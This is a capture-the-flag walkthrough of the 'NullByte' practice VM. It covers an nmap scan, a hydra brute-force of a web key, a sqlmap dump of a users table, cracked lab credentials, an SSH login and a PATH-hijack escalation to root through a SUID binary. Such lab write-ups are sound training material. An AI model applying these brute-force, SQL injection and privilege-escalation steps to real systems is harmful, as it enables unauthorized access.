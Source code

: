 # NullByte

Let’s find the IP Address first >>

![Untitled](NullByte/Untitled.png)

```bash
IP : 10.0.2.32
```

## Port Scan Results ➡️

![Untitled](NullByte/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/NullByte]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.32
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:44 IST
Nmap scan report for 10.0.2.32
Host is up (0.0053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http?
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44254/tcp6  status
|   100024  1          56237/udp   status
|   100024  1          57300/tcp   status
|_  100024  1          59382/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
57300/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:5C:97:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](NullByte/Untitled%202.png)

Now when I downloaded this ⬆️ eye image I recon over it through exiftool and I found this >>

![Untitled](NullByte/Untitled%203.png)

Now When I used this string as a web Directory I got this >>

 

![Untitled](NullByte/Untitled%204.png)

Source Code ⬇️

![Untitled](NullByte/Untitled%205.png)

Now I have to brute-force the keys to get the exact one >>

```bash
sudo hydra 10.0.2.32 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la
```

![Untitled](NullByte/Untitled%206.png)

After Entering this >>

![Untitled](NullByte/Untitled%207.png)

I think this data processing workes from mysql so let’s try sqlmap now >>

![Untitled](NullByte/Untitled%208.png)

```sql
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Lets crack this password >>

![Untitled](NullByte/Untitled%209.png)

![Untitled](NullByte/Untitled%2010.png)

```bash
Credentials >>
ramses : omega
```

Lets SSH now ⤵️

![Untitled](NullByte/Untitled%2011.png)

![Untitled](NullByte/Untitled%2012.png)

Now I think ps command is executed here os lets run sh instead of ps on procwatch file →

So  I have to change the Environment variable and include /tmp so that it can execute the sh directory which is copied in tmp directory →

![Untitled](NullByte/Untitled%2013.png)

Now let’s run `./procwatch` ⬇️

![Untitled](NullByte/Untitled%2014.png)

```bash
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com

USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 08:00:27:5c:97:bb brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.32/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe5c:97bb/64 scope link 
       valid_lft forever preferred_lft forever
# id    
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
#
```